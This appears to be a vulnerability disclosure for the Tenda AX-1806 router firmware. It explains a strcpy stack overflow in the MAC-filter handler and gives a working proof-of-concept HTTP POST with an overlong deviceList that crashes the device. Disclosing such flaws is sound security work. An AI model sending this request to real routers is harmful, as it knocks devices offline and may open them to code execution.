




# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/material/show/3422)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the formSetMacFilterCfg function processing the deviceList parameter, the deviceList is obtained via sub_295C8 The deviceList will first be split according to the newline character (\n), and then each line will be passed into sub_3CFF0 → sub_38214 for further processing. In the sub_38214 function, the device name is separated from the MAC address by looking up the carriage return (\r), and then the device name string before \r is directly copied to the position of buffer v15+32 on the stack without length checking using strcpy. The target buffer v15 is the char v15[160] allocated on the stack, which is only 160 bytes in size. After copying starting from offset +32, only 128 bytes of actual available space remain. However, the "Device Name" section of each line in deviceList is completely under the control of the attacker. When an attacker constructs a single rule with a device name length exceeding 128 bytes (for example, 156 bytes or longer), strcpy will directly overflow the stack buffer v15, overwriting the saved return address (saved RIP/EIP), stack frame pointer, and other critical stack data. Attackers can precisely control the return address of the program by carefully constructing an extremely long deviceList parameter, thereby achieving arbitrary code execution or at least triggering a stable denial-of-service (DoS) attack.


<div  align="center"></div>
<div  align="center"></div>
<div  align="center"></div>
<div  align="center"></div>

## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
POST /goform/setMacFilterCfg HTTP/1.1

Host: 192.168.20.12

Accept-Language: en-US,en;q=0.9

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.20.12/main.html

Accept-Encoding: gzip, deflate, br

Cookie: bLanguage=cn

Connection: close

Content-Length: 250


macFilterType=white&deviceList=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\rAA:BB:CC:DD:EE:FF
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>